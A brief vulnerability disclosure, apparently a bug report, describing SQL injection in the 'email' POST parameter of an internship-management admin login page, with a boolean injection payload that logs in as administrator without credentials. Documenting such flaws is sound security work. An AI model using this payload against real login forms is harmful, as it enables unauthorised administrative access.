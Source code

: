 BUG_Author:HaolunSong

Vulnerability File: /internship/admin/login.php

POST parameter 'email' exists SQL injection vulnerability

Payload1:email=-1' or 567=567#&password=2&login=

Boolean injection successful, can use any account to log in to the administrator account

![image](https://github.com/csbsong/bug_report/blob/main/sql1.png)
